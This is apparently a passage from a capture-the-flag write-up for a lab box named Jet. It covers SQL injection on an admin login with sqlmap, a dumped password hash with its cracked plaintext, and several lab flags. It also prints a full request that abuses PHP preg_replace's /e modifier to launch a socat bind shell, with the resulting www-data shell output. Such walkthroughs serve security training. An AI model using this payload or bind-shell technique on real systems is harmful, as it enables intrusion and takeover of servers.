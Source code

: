 This is leaking a path as you can see.

You will get a login at `http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php`

The parameter `username` of the post login is prone to different SQL-Injection methods. Leveraging sqlmap you will be able to retrieve the following information:

```
Database: jetadmin
Table: users
[1 entry]
+----+----------+------------------------------------------------------------------+
| id | username | password                                                         |
+----+----------+------------------------------------------------------------------+
| 1  | admin    | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 |
+----+----------+------------------------------------------------------------------+
```

Using crackstation on that hash will reveal it is `Hackthesystem200` in plain text. So the credentials are `admin:Hackthesystem200`.

In the Chat window you will find the flag: `JET{sQl_1nj3ct1ons_4r3_fun!}`

# Flag "Going Deeper"

Looking at the resulting login page of the previous step you will find a comment in `login.php` saying:

`<!-- JET{s3cur3_js_w4s_not_s0_s3cur3_4ft3r4ll} -->`

# Flag "Command"

Using the applications mail function you can exploit a preg\_replace call. The mail function wants to replace bad words. So using burp and altering the request to this you can instert arbitrary system commands:

```
earwords[/fuck/e]=system("/tmp/socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane")&swearwords[/shit/i]=poop&swearwords[/ass/i]=behind&swearwords[/dick/i]=penis&swearwords[/whore/i]=escort&swearwords[/asshole/i]=bad person&to=a@a.com&subject=test&message=<p>fuck<br></p>&_wysihtml5_mode=1
```

As you can see I transfered `socat` as always and issued a bind shell.

```
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ whoami
www-data
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls
a_flag_is_here.txt  auth.php  badwords.txt  bower_components  build  conf.php  dashboard.php  db.php  dist  dologin.php  email.php  index.php  js  login.php  logout.php  plugins  stats.php  uploads
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ 
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ cat a_flag_is_here.txt 
JET{pr3g_r3pl4c3_g3ts_y0u_pwn3d}
```
